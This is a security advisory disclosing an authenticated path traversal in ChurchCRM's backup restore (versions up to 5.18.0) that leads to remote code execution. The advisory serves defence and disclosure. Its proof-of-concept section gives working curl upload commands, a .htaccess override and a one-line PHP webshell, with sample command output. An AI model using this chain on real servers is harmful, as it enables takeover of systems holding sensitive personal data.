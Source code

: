 # ChurchCRM — Path Traversal to Remote Code Execution via Backup Restore (<= 5.18.0)

**Disclosure status:** Reported to vendor (GitHub Security Advisory GHSA-r6cr-mvr9-f6wx). No vendor response after 2+ weeks. Potentially addressed in v5.19.0 without acknowledgment.

**Affected product**
- ChurchCRM — versions **<= 5.18.0**

**Summary**
A path traversal vulnerability in ChurchCRM's backup restore functionality allows authenticated administrators to upload arbitrary files to the server filesystem. By exploiting this to upload malicious `.htaccess` files, attackers can override Apache configuration and achieve remote code execution through subsequent PHP webshell uploads.

**Required privileges**
- Authenticated administrator account with backup restore permissions

**Impact**
- Remote Code Execution (as web server user)
- Complete server compromise with web server privileges
- Access to all application data including sensitive church member information
- Potential for persistent backdoor installation and lateral movement

**Technical Details**
The vulnerability exists in `src/ChurchCRM/Backup/RestoreJob.php` at line 43 where user-supplied filenames from file uploads are directly concatenated into file paths without validation:

```php
$this->RestoreFile = new \SplFileInfo($this->TempFolder . '/' . $rawUploadedFile['name']);
move_uploaded_file($rawUploadedFile['tmp_name'], $this->RestoreFile);
```

The `$rawUploadedFile['name']` parameter is user-controlled, allowing upload of files with arbitrary names to `/var/www/html/tmp_attach/ChurchCRMBackups/`. This directory is typically web-accessible, enabling direct execution of uploaded content.

**Attack Chain**
1. **Path Traversal**: Upload malicious `.htaccess` file to override Apache PHP execution restrictions
2. **Configuration Override**: Malicious `.htaccess` allows PHP execution in upload directory
3. **Webshell Upload**: Upload PHP webshell through same vulnerable endpoint
4. **Remote Code Execution**: Execute arbitrary commands via uploaded webshell

**Proof-of-Concept**

1. Authenticate as administrator and obtain session cookie

2. Create malicious `.htaccess` file to enable PHP execution:
   ```apache
   <Files "*.php">
       Order Allow,Deny
       Allow from all
   </Files>
   ```

3. Upload `.htaccess` via backup restore endpoint:
   ```bash
   curl 'http://[target]/api/database/restore' \
     -H 'Cookie: CRM-[session-id]=[session-value]' \
     -F 'restoreFile=@.htaccess'
   ```

4. Upload PHP webshell:
   ```bash
   curl 'http://[target]/api/database/restore' \
     -H 'Cookie: CRM-[session-id]=[session-value]' \
     -F 'restoreFile=@webshell.php'
   ```
   
   Where `webshell.php` contains:
   ```php
   <?php system($_GET['cmd']); ?>
   ```

5. Execute arbitrary commands:
   ```bash
   curl 'http://[target]/tmp_attach/ChurchCRMBackups/webshell.php?cmd=whoami'
   # Response: www-data
   
   curl 'http://[target]/tmp_attach/ChurchCRMBackups/webshell.php?cmd=id'
   # Response: uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```

**Confirmed results (observed)**
- Successful upload of `.htaccess` file to override security restrictions
- Successful upload and execution of PHP webshell
- Remote command execution confirmed with system commands
- Full web server user access to filesystem and application data

**Mitigation / Workarounds**
- **Immediate**: Restrict backup restore functionality to trusted administrators only
- **Recommended vendor fixes**:
  - Implement strict filename validation and sanitization
  - Use allowlist of permitted file extensions for backup files
  - Store uploaded files outside web-accessible directories
  - Implement proper file type validation beyond filename checking
  - Add CSRF protection to backup restore endpoints

**Disclosure timeline**
- 2025-09-26 — Reported via GitHub Security Advisory GHSA-r6cr-mvr9-f6wx
- 2025-10-05 — ChurchCRM v5.19.0 released with unspecified security improvements
- 2025-10-08 — No vendor response received; publishing advisory for CVE coordination

**References**
- GitHub Security Advisory: GHSA-r6cr-mvr9-f6wx
- ChurchCRM Backup Restore: `src/ChurchCRM/Backup/RestoreJob.php:43`

**Contact**
- Reporter: uartu0@gmail.com

---

This advisory documents an authenticated path traversal vulnerability that can be chained with Apache configuration manipulation to achieve remote code execution. While requiring administrator privileges, the impact includes full server compromise and access to sensitive church member data stored in the application.
